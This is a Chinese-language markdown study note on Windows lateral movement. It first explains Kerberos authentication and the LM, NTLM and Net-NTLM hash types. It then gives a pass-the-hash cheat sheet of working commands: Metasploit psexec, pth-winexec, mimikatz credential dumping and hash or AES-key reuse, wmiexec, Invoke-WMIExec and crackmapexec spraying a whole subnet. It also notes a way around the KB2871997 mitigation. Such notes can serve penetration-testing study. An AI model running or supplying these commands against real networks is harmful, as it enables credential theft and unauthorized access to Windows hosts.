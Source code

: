 # windows横向移动学习

## 基础知识

### 本地认证流程

·![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007185004.png)



### kerberos

![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007165908.png)

#### 名词解释

```
KDC (Key Distribution Center):密钥分发中心，包含AS和TGS服务
AS (Authentication Server):身份认证服务
TGS(Ticket Granting Server):票据授权服务
TGT(Ticket Granting Ticket)：由身份认证授予的票据，用于身份认证，存储在内存中，默认有效期为10小时
```



#### 认证过程

```
第一:从AS服务器中获取TGT票据
用户在客户端输入账号和密码之后，会对密码进行hash处理，作为user-secret-key
1. 客户端将用户名发送给AS服务器申请服务,在AS服务器中会对用户名进行验证，在AS服务器本地数据库中查询到该用户名的密码，并使用hash生成user-secrect-key.
2. AS服务器向用户发送两样东西：
   1） Client/TGS会话密钥，使用user-secrect-key进行加密
   2） TGT，包含TGS会话密钥，用户信息，时间戳，TGT有效期。使用TGS密钥进行加密
3. 用户接收到消息之后，回使用本地的user-secret-key对消息1)进行解密，如果解密成功，说明用户提供的凭证是正确的,此时用户得到了加密后的TGT。
第二:从TGS服务器中获取访问权限
1. 客户端向TGS服务器发送信息：
   1） 第一步骤中的TGT
   2） 认证信息（认证符(Authenticator)），包含用户id以及时间戳，通过TGS会话密钥进行加密。
2. TGS服务器收到消息之后，会使用TGS密钥对消息1）进行解密,获取到TGS会话密钥，进而对消息2）进行解密，在对用户id以及时间戳进行认证，如果认证成功，向客户端发送消息：
   1） client-server-ticket(包含SS会话密钥，用户名信息以及时间戳)，使用ss密钥进行加密
   2） ss会话密钥使用TGS会话密钥进行加密
3. 客户端收到信息之后会对消息2）进行解密，获得ss会话密钥。
第三：访问服务
1. 客户端向ss服务器发送以下消息：
   1）第二步骤中的client-server-ticket
   2）新的Authenticator，包含用户信息，时间戳。通过SS会话密钥进行加密
2. SS服务器收到消息之后，会使用ss密钥对消息1）进行解密，解密之后使用ss会话密钥对消息2）解密，解密成功之后会得到authenticator，认证之后，发送：
   1）新时间戳，Client发送的时间戳加1，通过ss会话密钥进行加密
3. 客户端收到时间戳之后，解密确认，成功之后发送服务请求
4. ss服务器收到之后提供服务。
```







### 三种hash

#### LM HASH

LAN Manager（LM）哈希是Windows系统所用的第一种密码哈希算法,，用于老版本Windows系统登录认证。在LAN Manager协议中使用，非常容易通过暴力破解获取明文凭据。但是在Windows Vista和Windows 7系统之后，这种哈希算法是默认关闭。

 LM HASH生成规则如下：

- 用户的密码被限制为最多14个字符。
- 用户的密码转换为大写。
- 密码转换为16进制字符串，不足14字节将会用0来再后面补全。
- 密码的16进制字符串被分成两个7byte部分。每部分转换成比特流，并且长度位56bit，长度不足使用0在左边补齐长度，再分7bit为一组末尾加0，组成新的编码（str_to_key()函数处理）
- 上步骤得到的8byte二组，分别作为DES key为"KGS!@#$%"进行加密。
- 将二组DES加密后的编码拼接，得到最终LM HASH值。

#### NTML



NTML 是用于 Windows NT 和 Windows 2000 Server 工作组环境的身份验证协议,主要用于Windows Vista及其之后的系统。它还用在必须对 Windows NT 系统进行身份验证的混合 Windows 2000 Active Directory 域环境中。这类Hash可以直接用于PtH，并且通常存在于lsass进程中，便于SSP使用。**获取后可直接用于Hash传递攻击**

Windows系统下hash密码格式 用户名称:RID:LM-HASH值:NT-HASH值，

可以用LM-HASH值:NT-HASH值去在线查询http://www.objectif-securite.ch/en/ophcrack.php或者使用GetHashes、Ophcrack破解系统Hash密码生成过程

![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007184802.png)



#### NET-NTML HASH

NET-NTLM HASH是指网络环境下NTLM认证中的hash，有两种一种是Net-NTLMv1另一种是Net-NTLMv2。

Net-NTLMv1 相对脆弱，自Windows Vista/Server2008开始，系统默认禁用Net-NTLMv1，使用Net-NTLMv2。

虽然不能直接用与hash传递攻击，但是可以**通过smb中继来利用**



## PTH(PASS THE HASH，哈希传递攻击)



适用于

```
域/工作组环境
可以获得hash,但是条件不允许对hash爆破
内网中存在和当前机器相同的密码
```



### metepreter

```
use exploit/windows/smb/psexec_psh
set smbdomain xx.int
Set SMBuser admin
set SMBPass 01FC5A6BE7BC6929AAD3BXXX:0CB6948805F7XXXXX807973B89537
```





### pth-exec



```
pth-winexec -U pentestlab/administrator%eb9e3066e4d25b5025ad3b83fa6627c7:03bebb338e70244589ea67c7439c77ba //1.1.1.21 cmd.exe
```



### mimikatz

先抓密码取得NTMLhash，mimikatz实现了在禁用NTLM的环境下仍然可以远程连接。

```
privilege::debug
sekurlsa::logonpasswords

mimikatz # sekurlsa::pth /user:Administrator /domain:FENTESTLAB.com /ntlm:11ec7935618f326490509a0703fbadb8
```



#### aes key 远程连接

前提：安装kb2871997

获取aes key

```
privilege::debug
sekurlsa::ekeys
```



pth

```
privilege::debug 
sekurlsa::pth /user:Administrator /domain:FENTESTLAB.com /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c

dir \\WIN-8VVLRPIAJB0\c$
```



### wmiexec

wmi是从windows从03/xp开始win内置的插件，是为了管理员能更加方便的对远程windows主机进行各种日常管理。

win版：https://github.com/maaaaz/impacket-examples-windows

python版：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
wmiexec -hashes 00000000000000000000000000000000:7ECFFFF0C3548187607A14BAD0F88BB1 域名/用户名@192.168.1.1 "whoami"
```



### Invoke-TheHash

https://github.com/Kevin-Robertson/Invoke-TheHash

```
Invoke-WMIExec -Target 1.1.1.22 -Domain pentestlab -Username administrator -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "command or launcher to execute" -verbose

```



### crackmapexec

这个工具可以对C段进行批量尝试pth，可以先ew代理到kali

https://github.com/byt3bl33d3r/CrackMapExec.git

```
crackmapexec 1.1.1.0/24 -u administrator -H 11ec7935618f326490509a0703fbzdb8
```

### bypass

#### KB2871997

微软再2014年5月13日发布了针对Hash传递的补丁KB2871997，更新用于禁止本地管理员用于远程连接，这样本地管理员无法以本地管理员权限在远程主机上之洗礼wmi,psexec等。然而在实际的测试中发现常规的Hash传递虽已无法成功，但默认administrator(sid500) 账号除外，即使改名，这个账号仍然可以进行Hash传递攻击。



## 链接

https://lengjibo.github.io/LateralMovement/